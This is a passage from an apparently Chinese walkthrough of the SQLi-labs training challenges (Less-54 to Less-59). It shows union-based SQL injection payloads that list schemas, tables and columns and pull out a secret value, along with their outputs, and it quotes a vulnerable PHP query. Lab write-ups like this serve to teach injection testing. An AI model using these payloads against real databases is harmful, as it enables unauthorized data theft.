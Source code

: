 查数据库名

```sql
?id=-1'union select 1,2,(select group_concat(schema_name) from information_schema.schemata)%23
information_schema,challenges,mysql,performance_schema,security
```

查表名

```sql
?id=-1'union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')%23
1KBD9AIPC9
```

查字段名

```sql
?id=-1'union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='1KBD9AIPC9')%23
id,sessid,secret_2TF1,tryy
```

查key值

```sql
?id=-1'union select 1,2,(select concat(secret_2TF1) from challenges.1KBD9AIPC9)%23
vJWlm4ld9mZEZN2o7n59t4A8
```

总共八次。

#### 3.5.2 Less-55

无区别。

#### 3.5.3 Less-56

无区别。

#### 3.5.4 Less-57

无区别。

#### 3.5.5 Less-58

```php
$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
if true
    echo 'Your Login name : '. $unames[$row['id']];
    echo 'Your Password : ' .$pass[$row['id']];
else
    print_r(mysql_error());
```

联合查询没结果输出，改为报错注入。

#### 3.5.6 Less-59

无区别。
